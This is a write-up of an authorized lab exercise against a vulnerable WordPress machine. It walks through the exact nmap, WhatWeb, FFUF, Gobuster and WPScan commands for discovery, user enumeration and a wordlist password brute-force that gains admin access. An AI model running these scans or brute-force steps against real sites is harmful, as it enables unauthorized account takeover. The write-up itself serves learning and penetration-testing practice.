

# WordPress Host Server 1

## Overview

This write-up documents my practical testing process against the WordPress Host Server 1 vulnerable machine in an authorized local VMware lab.

The goal was to understand the workflow from host discovery to WordPress enumeration and password brute-force testing using WPScan.

## Lab Information

- Target IP: `192.168.198.136`
- Kali IP: `192.168.198.131`
- Domain: `www.armourinfosec.test`
- CMS: WordPress `5.3.2`
- Environment: Local VMware Lab

## Tools Used

- Nmap
- WhatWeb
- FFUF
- Gobuster
- WPScan

## Methodology

1. Identified the Kali network interface and subnet.
2. Discovered active hosts using Nmap.
3. Identified the target machine.
4. Enumerated open ports and running services.
5. Added the target domain to `/etc/hosts`.
6. Fingerprinted the website using WhatWeb.
7. Enumerated directories and files using FFUF and Gobuster.
8. Enumerated WordPress users, themes, and plugins using WPScan.
9. Identified the WordPress username `bob`.
10. Prepared a password wordlist for authentication testing.
11. Used WPScan to test multiple passwords against the identified username.
12. WPScan identified a valid username and password combination.
13. Accessed the WordPress login page through `/wp-login.php`.
14. Successfully logged in to the WordPress administration panel.

## Network Discovery

The Kali machine was connected to the following network:

```text
192.168.198.0/24
```

The Kali IP address was:

```text
192.168.198.131
```

Host discovery was performed using:

```bash
nmap 192.168.198.0/24 -sn
```


The target machine was identified as:

```text
192.168.198.136
```

## Service Enumeration

The target was scanned using:

```bash
sudo nmap -sC -sV 192.168.198.136
```

The main open ports were:

| Port | Service |
|---|---|
| `22/tcp` | SSH |
| `80/tcp` | HTTP |
| `443/tcp` | HTTPS |

The web server redirected requests to:

```text
www.armourinfosec.test
```

## Domain Mapping

The target domain was mapped locally inside `/etc/hosts`:

```text
192.168.198.136 armourinfosec.test
192.168.198.136 www.armourinfosec.test
```

## Technology Fingerprinting

The website was fingerprinted using:

```bash
whatweb http://www.armourinfosec.test
```


The following technologies were identified:

- WordPress `5.3.2`
- Apache `2.4.6`
- CentOS
- PHP `7.3.14`

## Directory Enumeration

FFUF was used to enumerate directories and files:

```bash
ffuf -u http://www.armourinfosec.test/FUZZ \
-w /usr/share/wordlists/dirb/common.txt \
-e .php,.html,.txt \
-mc 200,204,301,302,307,401,403,405,500 \
-ac \
-c \
-t 10
```

[View the full FFUF results](ffuf-results.txt)

Gobuster was also used for comparison:

```bash
gobuster dir \
-u http://www.armourinfosec.test \
-w /usr/share/wordlists/dirb/common.txt \
-x php,html,txt \
-t 10
```

[View the full Gobuster results](gobuster-results.txt)

Important findings included:

```text
/wp-admin
/wp-content
/wp-includes
/wp-login.php
/wp-signup.php
/xmlrpc.php
/readme.html
/license.txt
```

## WordPress Enumeration

WPScan was used to enumerate WordPress information:

```bash
wpscan --url "https://www.armourinfosec.test" \
--disable-tls-checks \
-e u,ap,at,dbe
```

[View the full WPScan enumeration results](wpscan-enumeration.txt)

WPScan identified:

- WordPress version `5.3.2`
- Enabled XML-RPC endpoint
- Installed themes and plugins
- Multiple outdated components
- WordPress username `bob`

## Password Brute-Force Testing

After identifying the username `bob`, I used WPScan with a password wordlist to test multiple possible passwords against the WordPress login page.

```bash
wpscan --url "https://www.armourinfosec.test" \
--disable-tls-checks \
--usernames bob \
--passwords ~/lab-passwords.txt \
--password-attack wp-login
```

WPScan tested the passwords from the wordlist and successfully identified a valid username and password combination.

[View the redacted WPScan brute-force results](wpscan-bruteforce-redacted.txt)

## WordPress Login Page

The WordPress login page was accessed through the following path:

```text
https://www.armourinfosec.test/wp-login.php
```

The username and password identified by WPScan were entered into the WordPress login form.

After successful authentication, access to the WordPress administration panel was confirmed through:

```text
https://www.armourinfosec.test/wp-admin/
```


The password is intentionally excluded from this public write-up.

## Key Findings

- WordPress version `5.3.2` was identified.
- Apache `2.4.6` and PHP `7.3.14` were detected.
- XML-RPC was enabled.
- WordPress username identified: `bob`
- Multiple outdated plugins and themes were detected.
- WPScan successfully discovered a valid password through wordlist-based brute-force testing.
- The WordPress login page was accessible through `/wp-login.php`.
- Successful access to the WordPress administration panel was confirmed.

## What I Learned

- How to identify the target machine inside a local virtual network.
- How to perform host discovery and service enumeration using Nmap.
- How to configure `/etc/hosts` for a local domain.
- How to fingerprint a website using WhatWeb.
- How to enumerate directories using FFUF and Gobuster.
- How to identify the WordPress login path.
- How to enumerate WordPress users, themes, and plugins using WPScan.
- How to perform a wordlist-based password brute-force attack using WPScan.
- How WPScan tests multiple passwords against an identified WordPress username.
- How to interpret the `Valid Combinations Found` result.
- How to verify discovered credentials through `/wp-login.php`.
- How to access the WordPress administration panel through `/wp-admin/`.

## Disclaimer

This project was performed in an authorized local lab for educational purposes only.
